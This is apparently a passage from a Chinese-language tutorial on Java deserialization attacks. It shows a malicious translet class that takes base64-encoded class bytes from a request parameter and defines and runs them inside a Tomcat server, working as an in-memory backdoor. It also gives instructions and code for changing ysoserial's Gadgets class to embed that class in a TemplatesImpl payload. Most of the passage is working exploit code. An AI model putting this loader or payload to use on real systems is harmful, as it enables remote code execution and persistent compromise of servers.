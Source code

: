 ```java
            org.apache.catalina.connector.Response response =((org.apache.catalina.connector.Request) r.get(request)).getResponse();
            javax.servlet.http.HttpSession session = request.getSession();

            String classData=request.getParameter("classData");
            System.out.println(classData);

            byte[] classBytes = new sun.misc.BASE64Decoder().decodeBuffer(classData);
            java.lang.reflect.Method defineClassMethod = ClassLoader.class.getDeclaredMethod("defineClass",new Class[]{byte[].class, int.class, int.class});
            defineClassMethod.setAccessible(true);
            Class cc = (Class) defineClassMethod.invoke(MyClassLoader.class.getClassLoader(), classBytes, 0,classBytes.length);
            cc.newInstance().equals(new Object[]{request,response,session});
        }catch(Exception e){
            e.printStackTrace();
        }
    }
    public void transform(DOM arg0, SerializationHandler[] arg1) throws TransletException {
    }
    public void transform(DOM arg0, DTMAxisIterator arg1, SerializationHandler arg2) throws TransletException {
    }
}

```

在ysoserial.payloads.util包的Gadgets类中照着原有的createTemplatesImpl方法添加一个createTemplatesImpl(Class c)，参数即为我们要让服务端加载的类，如下直接将传入的c转换为字节码赋值给了_bytecodes

```
public static <T> T createTemplatesImpl(Class c) throws Exception {
    Class<T> tplClass = null;

    if ( Boolean.parseBoolean(System.getProperty("properXalan", "false")) ) {
        tplClass = (Class<T>) Class.forName("org.apache.xalan.xsltc.trax.TemplatesImpl");
    }else{
        tplClass = (Class<T>) TemplatesImpl.class;
    }

    final T templates = tplClass.newInstance();
    final byte[] classBytes = ClassFiles.classAsBytes(c);

    Reflections.setFieldValue(templates, "_bytecodes", new byte[][] {
        classBytes
    });

    Reflections.setFieldValue(templates, "_name", "Pwnr");
    return templates;
}
```
